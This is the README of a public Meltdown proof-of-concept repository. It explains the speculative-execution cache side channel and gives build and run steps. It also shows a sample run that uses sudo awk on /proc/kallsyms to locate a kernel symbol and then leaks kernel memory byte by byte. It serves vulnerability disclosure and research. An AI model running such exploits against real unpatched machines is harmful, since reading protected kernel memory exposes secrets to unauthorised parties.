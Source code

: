 from https://github.com/paboldin/meltdown-exploit.git

###### =======================================================
# MELTDOWN EXPLOIT POC

Speculative optimizations execute code in a non-secure manner leaving data
traces in microarchitecture such as cache.

Refer to the paper by Lipp et. al 2017 for details: https://meltdownattack.com/meltdown.pdf.

Can only dump `linux_proc_banner` at the moment, since requires accessed memory
to be in cache and `linux_proc_banner` is cached on every read from
`/proc/version`. Might work with `prefetch`.

Build with `make`, run with `./run.sh`.

Can't defeat KASLR yet, so you may need to enter your password to find
`linux_proc_banner` in the `/proc/kallsyms` (or do it manually).

Flush+Reload and target array approach taken from spectre paper https://spectreattack.com/spectre.pdf
implemented following clues from https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/.

Pandora's box is open.

Result:
```
$ make
cc -O2 -msse2   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
protected. requires root
+ find_linux_proc_banner /proc/kallsyms sudo
+ sudo awk 
	/linux_proc_banner/ {
		if (strtonum("0x"$1))
			print $1;
		exit 0;
	} /proc/kallsyms
+ linux_proc_banner=ffffffffa3e000a0
+ set +x
cached = 29, uncached = 271, threshold 88
read ffffffffa3e000a0 = 25 %
read ffffffffa3e000a1 = 73 s
read ffffffffa3e000a2 = 20  
read ffffffffa3e000a3 = 76 v
read ffffffffa3e000a4 = 65 e
read ffffffffa3e000a5 = 72 r
read ffffffffa3e000a6 = 73 s
read ffffffffa3e000a7 = 69 i
read ffffffffa3e000a8 = 6f o
read ffffffffa3e000a9 = 6e n
read ffffffffa3e000aa = 20  
read ffffffffa3e000ab = 25 %
read ffffffffa3e000ac = 73 s
read ffffffffa3e000ad = 20  
read ffffffffa3e000ae = 28 (
read ffffffffa3e000af = 62 b
read ffffffffa3e000b0 = 75 u
read ffffffffa3e000b1 = 69 i
read ffffffffa3e000b2 = 6c l
read ffffffffa3e000b3 = 64 d
read ffffffffa3e000b4 = 64 d
read ffffffffa3e000b5 = 40 @
VULNERABLE
VULNERABLE ON
4.10.0-42-generic #46~16.04.1-Ubuntu SMP Mon Dec 4 15:57:59 UTC 2017 x86_64
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 158
model name	: Intel(R) Core(TM) i7-7700HQ CPU @ 2.80GHz
stepping	: 9
microcode	: 0x5e
cpu MHz		: 3499.316
cache size	: 6144 KB
physical id	: 0
```

# Does not work

If it compiles but fails with `Illegal instruction` then either your hardware
is very old or it is a VM. Try compiling with:

```shell
$ make CFLAGS=-DHAVE_RDTSCP=0 clean all
```

# Works on

The CPUs list is moved here:
https://github.com/paboldin/meltdown-exploit/issues/19
